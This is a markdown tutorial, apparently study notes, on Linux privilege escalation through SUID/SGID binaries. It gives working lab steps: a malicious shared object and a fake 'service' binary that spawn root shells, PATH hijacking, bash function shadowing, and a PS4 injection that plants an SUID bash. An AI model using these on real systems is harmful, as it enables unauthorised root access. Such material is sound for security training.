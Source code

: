 # 8. SUID/SGID Executable

### **SUID**

* is a special file permission for executable files which enables other users to run the file with effective permissions of the file owner.
* When extra bit **“4”** is set to user(Owner) it becomes SUID (Set user ID)
* The permissions to look for when looking for SUID is:
  * `rws-rwx-rwx`



### **SGID**

* is a special file permission that also applies to executable files and enables other users to inherit the effective GID of file group owner.
* When bit **“2”** is set to group it becomes SGID (Set Group ID).
* The permissions to look for when looking for GUID is:
  * `rwx-rws-rwx`



### Find all the SUID/SGID executables:

`find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`



### A Quick Word on LD\_PRELOAD & LD\_LIBRARY\_PATH

Why we can’t just use the same LD\_PRELOAD and LD\_LIBRARY\_PATH environment variable tricks we used with sudo privilege escalation?

By default, this is disabled in Linux, due to the obvious security risk it presents!

Both these environment variables get ignored when SUID files are executed



### Known Exploits

Certain programs install SUID files to aid their operation.

Just as services which run as root can have vulnerabilities we can exploit for a root shell, so too can these SUID files.

Exploits can be found using Searchsploit, Google, and GitHub, in the same way we find exploits for Kernels and Services.



### **Shared Object Injection**

When a program is executed, it will try to load the shared objects it requires.

By using a program called `strace`, we can track these system calls and determine whether any shared objects were not found.

If we can write to the location the program tries to open, we can create a shared object and spawn a root shell when it is loaded.

1. Find SUID/SGID files on the target:
   * ```bash
     $ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \;2> /dev/null
     ...
     -rwsr-sr-x 1 root staff 9861 May 14 2017 /usr/local/bin/suid-so
     ...
     ```
   * The suid-so file should execute with root user permissions.
2.  Run strace on the SUID file:

    * ```bash
      $ strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such	file"
      access("/etc/suid-debug", F_OK) = -1 ENOENT (No such file or 	directory)
      ...
      open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such 	file or directory)
      ```

    ```bash
    - The libcalc.so shared object could not be found, and the program is looking in our user’s home directory, which we can write to.
    ```
3. Create the /home/user/.config directory.
4. Create the file libcalc.c with the following contents:
   * ```c
     #include <stdio.h>
     #include <stdlib.h>
     static void inject() __attribute__((constructor));
     void inject() {
     setuid(0);
     system("/bin/bash -p");
     }
     ```
5. Compile libcalc.c into /home/user/.config/libcalc.so:
   * ```bash
     $ gcc -shared -fPIC -o /home/user/.config/libcalc.so libcalc.c
     ```
6. Run the SUID executable to get a root shell:
   * ```bash
     $ /usr/local/bin/suid-so
     Calculating something, please wait...
     bash-4.1# id
     uid=0(root) gid=1000(user) egid=50(staff) groups=0(root) ...
     ```



### PATH Variable

The PATH environment variable contains a list of directories where the shell should try to find programs.

If a program tries to execute another program, but only specifies the program name, rather than its full (absolute) path, the shell will search the PATH directories until it is found.

Since a user has full control over their PATH variable, we can tell the shell to first look for programs in a directory we can write to

#### Finding Vulnerable Programs

If a program tries to execute another program, the name of that program is likely embedded in the executable file as a string.

We can run `strings` on the executable file to find strings of characters.

We can also use `strace` to see how the program is executing.

Another program called `ltrace` may also be of use.

Running strings against a file:

```bash
$ strings /path/to/file
```

Running strace against a command:

```bash
$ strace -v -f -e execve <command> 2>&1 | grep exec
```

Running ltrace against a command:

```bash
$ ltrace <command>
```

1. Find SUID/SGID files on the target:
   * ```bash
     $ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \;2> /dev/null
     ...
     -rwsr-sr-x 1 root staff 6883 May 14 2017 /usr/local/bin/suid-env
     ***
     ```
   * The suid-env file should execute with root user permissions.
2. Run strings on the SUID file:
   * ```bash
     $ strings /usr/local/bin/suid-env
     /lib64/ld-linux-x86-64.so.2
     ...
     service apache2 start
     ```
   * The file could be trying to run the service program without a full path.
3. We can verify this with strace:
   * ```bash
     $ strace -v -f -e execve /usr/local/bin/suid-env 2>&1 | grep service
     [pid 14395] execve("/bin/sh", ["sh", "-c", "service apache2 start"],
     ...
     ```
4. Optionally, we can also verify with ltrace
   * ```bash
     $ ltrace /usr/local/bin/suid-env 2>&1 | grep service
     system("service apache2 start"
     ```
   * This reveals that the system function is being used to execute the service program.
5. Create a file service.c with the following contents:
   * ```c
     int main() {
     setuid(0);
     system("/bin/bash -p");
     }
     ```
6. Compile service.c into a file called service:
   * `$ gcc -o service service.c`
7. Prepend the current directory (or where the new service executable is located) to the PATH variable, and execute the SUID file for a root shell:
   * ```bash
     $ PATH=.:$PATH /usr/local/bin/suid-env
     root@debian:~# id
     uid=0(root) gid=0(root) groups=0(root) ...
     ```





### **Abusing Shell Features**

1. we can find shell version and known exploits for instance
   * In Bash versions < 4.2-048 it is possible to define shell functions with names that resemble file paths, then export those functions so that they are used instead of any actual executable at that file path.
   * Example
     * Create a Bash function with the name "/usr/sbin/service" that executes a new Bash shell (using -p so permissions are preserved) and export the function:
     * ```bash
       function /usr/sbin/service { /bin/bash -p; }
       export -f /usr/sbin/service
       ```
     * Run the suid-env2 executable to gain a root shell:
     * `/usr/local/bin/suid-env2`
2. another abuse that was found in Bash versions 4.3 and below is
   * When in debugging mode, Bash uses the environment variable PS4 to display an extra prompt for debugging statements. we can executable suid executeable with bash debugging enabled and the PS4 variable set to an embedded command which creates an SUID version of /bin/bash:
   * Example
     * Run the /usr/local/bin/suid-env2 executable with bash debugging enabled and the PS4 variable set to an embedded command which creates an SUID version of /bin/bash:
     * `env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2`
     * Run the /tmp/rootbash executable with -p to gain a shell running with root privileges:
     * \`/tmp/rootbash -p\`

